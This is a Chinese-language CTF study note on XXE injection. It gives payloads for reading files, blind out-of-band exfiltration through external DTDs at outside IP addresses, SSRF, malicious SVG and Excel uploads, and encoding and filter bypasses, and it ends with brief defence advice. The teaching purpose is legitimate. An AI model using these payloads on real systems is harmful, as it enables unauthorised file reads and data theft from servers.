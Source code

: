 # XML 外部实体 (XXE) 注入

[CTF XXE - MustaphaMond - 博客园 (cnblogs.com)](https://www.cnblogs.com/20175211lyz/p/11413335.html)

## XML

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。

## XXE

XXE漏洞全称XML External Entity Injection,即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

## XML与HTML的主要差异

XML被设计为传输和存储数据，其焦点是数据的内容。
HTML被设计用来显示数据，其焦点是数据的外观。
HTML旨在显示信息而XML旨在传输信息。

## 漏洞原理：

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。XXE漏洞全称XML External Entity Injection，即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

## XXE 攻击有哪些类型？

XXE 攻击有多种类型：

- 利用 XXE 检索文件，其中定义了包含文件内容的外部实体，并在应用程序的响应中返回。
- 利用 XXE 执行 SSRF 攻击，其中外部实体是基于后端系统的 URL 定义的。
- 利用盲 XXE 带外泄露数据，其中敏感数据从应用程序服务器传输到攻击者控制的系统。
- 利用盲 XXE 通过错误消息检索数据，攻击者可以在其中触发包含敏感数据的解析错误消息。

## 玩法

1、读取文件：

```xml
<?xml version="1.0"?>

<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///d:/e.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>



```

1.1、带外测试：

```xml
<?xml version="1.0" ?>

<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://9v57ll.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>


```

2、外部引用实体dtd：

```xml
<?xml version="1.0" ?>

<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://127.0.0.1:8081/evil2.dtd">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>


evil2.dtd：

<!ENTITY send SYSTEM "file:///d:/e.txt">
```

3、无回显读文件

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/e.txt">
<!ENTITY % remote SYSTEM "http://47.94.236.117/test.dtd">
%remote;
%all;
]>
<root>&send;</root>
test.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://47.94.236.117/get.php?file=%file;'>">


```

4、利用 XXE 执行 SSRF 攻击
除了检索敏感数据外，XXE 攻击的另一个主要影响是它们可用于执行服务器端请求伪造 (SSRF)。这是一个潜在的严重漏洞，可以诱导服务器端应用程序向服务器可以访问的任何 URL 发出 HTTP 请求。
在以下 XXE 示例中，外部实体将导致服务器向组织基础设施内的内部系统发出后端 HTTP 请求：

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

5、通过文件上传进行 XXE 攻击
一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用 XML 或包含 XML 子组件。基于 XML 的格式的示例是办公文档格式（如 DOCX）和图像格式（如 SVG）。
例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收 PNG 或 JPEG 等格式，正在使用的图像处理库也可能支持 SVG 图像。由于 SVG 格式使用 XML，攻击者可以提交恶意 SVG 图像，从而达到 XXE 漏洞的隐藏攻击面
例如：使用以下内容创建本地 SVG 图像：

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ 
	<!ENTITY xxe SYSTEM "file:///etc/hostname" > 
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

在博客文章上发表评论，并将此图片作为头像上传。
当您查看评论时，您应该会在图像中看到/etc/hostname文件的内容。

## 绕过方式

ENTITY``SYSTEM``file等关键词被过滤**

使用编码方式绕过：UTF-16BE
`cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml`

若http被过滤，可以

data://协议绕过**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a " <!ENTITY %  b SYSTEM 'http://118.25.14.40:8200/hack.dtd'> "> 
    %a;
    %b;
]>
<test>&hhh;</test>
```

file://协议加文件上传**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "file:///var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
<!--上传文件-->
<!ENTITY % b SYSTEM 'http://118.25.14.40:8200/hack.dtd'>
```

php://filter协议加文件上传**

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "php://filter/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
    <test>
        &hhh;
    </test>

<!--上传文件-->
<!ENTITY hhh SYSTEM 'php://filter/read=convert.base64-encode/resource=./flag.php'>
```

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % a SYSTEM "php://filter/read=convert.base64-decode/resource=/var/www/uploads/cfcd208495d565ef66e7dff9f98764da.jpg">
    %a;
]>
    <test>
        &hhh;
    </test>
<!--上传文件-->
PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==
```

```
PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==
```

## 利用场景

svg

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

tips:从当前文件夹读取文件可以使用`/proc/self/cwd`

excel

[利用EXCEL进行XXE攻击](https://xz.aliyun.com/t/3741)
首先用excel创建一个空白的xlsx，然后解压

```
mkdir XXE && cd XXE
unzip ../XXE.xlsx
```

将`[Content_Types].xml`改成恶意xml，再压缩回去

```
zip -r ../poc.xlsx *
```

## XXE防御

[未知攻焉知防——XXE漏洞攻防](https://security.tencent.com/index.php/blog/msg/69)

- 方案一、使用开发语言提供的禁用外部实体的方法
  PHP：libxml_disable_entity_loader(true);
  其他语言:https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet
- 方案二、过滤用户提交的XML数据
  关键词：`，`,`SYSTEM`和`PUBLIC`。

